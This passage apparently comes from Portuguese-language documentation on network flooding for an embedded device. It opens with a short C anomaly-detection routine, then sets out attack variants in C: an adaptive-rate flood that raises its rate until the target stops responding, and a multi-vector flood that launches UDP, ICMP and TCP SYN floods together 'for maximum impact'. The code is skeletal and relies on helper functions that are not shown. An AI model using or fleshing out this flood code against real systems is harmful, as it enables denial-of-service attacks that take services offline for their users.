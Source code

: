 #### 3.3.3 Anomaly Detection
```c
typedef struct {
    uint32_t baseline_pps;
    uint32_t baseline_bps;
    float deviation_threshold;
    uint32_t detection_window_sec;
} anomaly_detector_t;

bool detect_flood_anomaly(uint32_t current_pps, uint32_t current_bps) {
    float pps_ratio = (float)current_pps / baseline_pps;
    float bps_ratio = (float)current_bps / baseline_bps;
    
    return (pps_ratio > ANOMALY_THRESHOLD || bps_ratio > ANOMALY_THRESHOLD);
}
```

## Variações do Ataque

### 1. Adaptive Rate Flood
```c
void adaptive_rate_flood(void) {
    uint32_t current_rate = INITIAL_RATE;
    uint32_t max_effective_rate = 0;
    
    while (current_rate <= MAX_RATE) {
        test_flood_rate(current_rate);
        
        if (is_target_responsive()) {
            max_effective_rate = current_rate;
            current_rate *= 1.5;  // Aumentar 50%
        } else {
            // Encontrou limite, usar taxa eficaz máxima
            use_optimal_rate(max_effective_rate);
            break;
        }
    }
}
```

### 2. Multi-Vector Flood
```c
void multi_vector_flood(void) {
    // Combinar múltiplos tipos de flood
    create_task(udp_flood_task, "udp_flood", 4096, NULL, 5, NULL);
    create_task(icmp_flood_task, "icmp_flood", 4096, NULL, 5, NULL);
    create_task(tcp_syn_flood_task, "tcp_syn_flood", 4096, NULL, 5, NULL);
    
    // Coordenar ataques para máximo impacto
    coordinate_multi_vector_timing();
}
```
